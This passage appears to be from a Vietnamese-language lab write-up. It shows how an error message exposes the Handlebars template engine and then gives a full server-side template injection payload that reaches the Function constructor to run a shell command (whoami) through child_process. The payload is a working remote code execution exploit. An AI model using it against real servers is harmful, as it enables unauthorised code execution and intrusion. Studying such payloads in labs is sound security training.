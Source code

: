 ta thấy lỗi --> xác định được template là `Handlebars`

![Alt text](../image/lab4/05.png)

--> payload RCE

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
